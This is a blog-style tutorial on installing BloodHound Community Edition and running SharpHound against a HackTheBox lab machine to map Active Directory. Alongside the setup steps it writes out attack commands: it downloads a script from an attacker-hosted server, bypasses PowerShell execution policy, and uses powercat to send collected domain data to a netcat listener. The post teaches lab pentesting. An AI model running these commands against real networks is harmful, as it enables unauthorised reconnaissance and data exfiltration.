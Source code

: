
---
title: "How to Setup BloodHound Community Edition"
summary: "Quick explanation on how to get BloodHound up and running in a few minutes! This post include a step by step installation guide of **BloodHound**, as well as downloading **SharpHound** and uploading it to a machine in order to map out an Active Directory Network."
categories: ["Post","Blog",]
tags: ["post","bloodhound","sharphound"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-11

---

## BloodHound 
**BloodHound** is a powerful and widely used tool in the field of cybersecurity, particularly for penetration testers in _Corporative Enviroments_. It is designed to map and analyze Active Directory structures, helping identify security misconfigurations and potential attack paths that an adversary could exploit to escalate privileges or gain access to sensitive resources.

**BloodHound** operates by collecting and visualizing relationships within an AD domain. These relations include group memberships, user permissions, trust relationships, and more. The tool’s strength lies in its ability to uncover complex chains of privileges that might be invisible to administrators manually auditing AD security.

We will do a quick installation step by step of the Community Version of **BloodHound**, as well and a small step by step tutorial on how to run both **BloodHound** and **SharpHound** taking as an example the [Forest](https://s3ntinl.github.io/posts/forest/) Machine from HackTheBox. Check out my post of the machine if you haven't already!

Let's begin!

- - -
## Installation
First, we need to install _Docker_:

```bash
kali@kali:~$ sudo apt install -y docker.io

kali@kali:~$ sudo systemctl enable docker --now
```

Then, create the _docker_ group if it does not exist:

```bash
kali@kali:~$ sudo groupadd docker
```

Add your user to the _docker_ group:

```bash
kali@kali:~$ sudo usermod -aG docker $USER
```

Now, install **docker-compose** form [github](https://github.com/docker/compose/). Also, remember to give execution rights to the binary and add it to the `/usr/bin` directory.

```bash
kali@kali:~$ mv ./docker-compose-linux-aarch64 docker-compose
kali@kali:~$ chmod +x ./docker-compose
kali@kali:~$ mv ./docker-compose /usr/bin/
```

Lastly, we need to copy the **BloodHound** `docker-compose.yml` file to save it locally:

```bash
kali@kali:~$ sudo wget https://ghst.ly/getbhce -O docker-compose.yml
kali@kali:~$ docker-compose up
```

**BloodHound** will be available on port 8080.

- - -
## SharpHound
**SharpHound** is the data collection component of BloodHound. It is a C# tool designed to gather information from Active Directory environments, which is then used by BloodHound to map and analyze attack paths. SharpHound collects data such as user sessions, group memberships, ACLs, and trust relationships, giving penetration testers and security analysts a detailed view of the environment.

The collected data is stored in JSON files, which are later imported into BloodHound for visualization and analysis. Together, SharpHound and BloodHound are a powerful duo for identifying and understanding security weaknesses in AD domains.

- - -
## BloodHound  and SharpHound Usage

First, let's log into **BloodHound**. We have it already running, so we need to access it on `http://localhost:8080`.

![bloodhound1](/img/bloodhound/bloodhound1.png)

> The first time we access **BloodHound**, we will need to input the random generated password found on the terminal window where `docker-compose` is running. Then, we will need to change it. The default user is **admin**.

![bloodhound9](/img/bloodhound/bloodhound9.png)

Now on the _Download Collectors_ tab, we can download the latest version of **SharpHound**:

![bloodhound3](/img/bloodhound/bloodhound3.png)

Here, select **SharpHound**, and we’re almost ready to start collecting data! Just a few more steps:

![bloodhound4](/img/bloodhound/bloodhound4.png)

Next, upload the **SharpHound** executable to the Windows machine whose Active Directory you intend to map. From our Attacker Machine, we serve **SharpHound** from a _Python_ Server:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound/sharphound]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

From the Windows Machine, we download **SharpHound** with the following command:

```powershell
PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.18/SharpHound.ps1 -Outfile SharpHound.ps1
```

After transfer it to the Windows Machine, we can import it to PowerShell:

```powershell
PS C:\Users\svc-alfresco\Desktop> powershell -ep bypass

PS C:\Users\svc-alfresco\Desktop> Import-Module .\Sharphound.ps1
```

Now, we can run the script to collect all the information from the domain. **SharpHound** primarily relies on `LDAP` queries to gather data from Active Directory. Since LDAP queries are a standard part of domain communication, any domain-authenticated user can execute them, which is why SharpHound doesn’t require administrative privileges for most of its operations.

```powershell
PS C:\Users\svc-alfresco\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```

After executing, we'll see a **zip** file with all the information. That's what we need to transfer back to our attacking machine. The .bin file that **BloodHound** generates is a binary file used as a cache for preprocessed data. When you import JSON files collected by SharpHound into BloodHound, it processes the data and stores it in a Neo4j database. 

The `.bin` file serves as a local cache of this processed data to improve performance, but we don't necesarilly need to transfer it back to our machine, so we will ignore it.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2025   9:29 AM          43554 forest_20250110092905_BloodHound.zip
-a----        1/10/2025   9:15 AM        1942029 SharpHound.ps1

```

We can use our favorite transfer method, I will use `powercat.exe`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> powercat -c 10.10.14.18 -p 4444 -i C:\Users\svc-alfresco\Desktop\forest_20250110092905_BloodHound.zip
```

On our Attacking Machine, we need to open a `netcat` listener in order to receive the data:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound]
└─$ sudo nc -nlvp 4444 > bloodhound.zip   
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.161] 50906
```

Once we have the zip file locally on our machine, let's upload it to **BloodHound**. First, press the _Administration_ option.
![bloodhound2](/img/bloodhound/bloodhound2.png)

Import the zip file in the _File Ingest_ option, in the _Data Collection_ section:

![bloodhound10](/img/bloodhound/bloodhound10.png)

Click and Select the _zip_ file

![bloodhound5](/img/bloodhound/bloodhound5.png)

Nice! It was succesfully uploaded.

![bloodhound6](/img/bloodhound/bloodhound6.png)

Teaching how to do queries with **BloodHound** it out of the scope of this post, but let's run a quick "_Shortest Paths to Domain Admins_" query to check if the ingestion of the data was successful.
![bloodhound7](/img/bloodhound/bloodhound7.png)

It works! You now have a fully functional **BloodHound** instance up and running, ready to map out and analyze your Active Directory environment. 

## Stopping the Instance

Stopping the instance is as easy as pressing `Ctrl+C` on the terminal window where `docker-compose` is running.

![bloodhound8](/img/bloodhound/bloodhound8.png)

If you want to set it up again, just do `docker-compose up` and you are good to go.

I hope this guide was helpful in getting everything set up smoothly, as setting up a **BloodHound** environment could be tricky at first. Give it a try! 